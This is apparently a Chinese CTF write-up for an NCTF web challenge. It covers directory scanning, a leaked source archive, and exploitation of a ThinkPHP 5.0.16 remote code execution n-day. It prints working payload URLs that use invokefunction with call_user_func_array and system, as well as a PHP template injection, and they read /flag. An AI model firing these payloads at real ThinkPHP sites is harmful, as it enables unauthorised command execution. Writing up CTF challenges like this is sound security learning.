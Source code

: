 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden

![web-1.1](\ctf\web\img\web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](\img\web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](\img\web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](\img\web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,

尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](\img\web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](\img\web-1.6.png)

![web-1.7](\img\web-1.7.png)
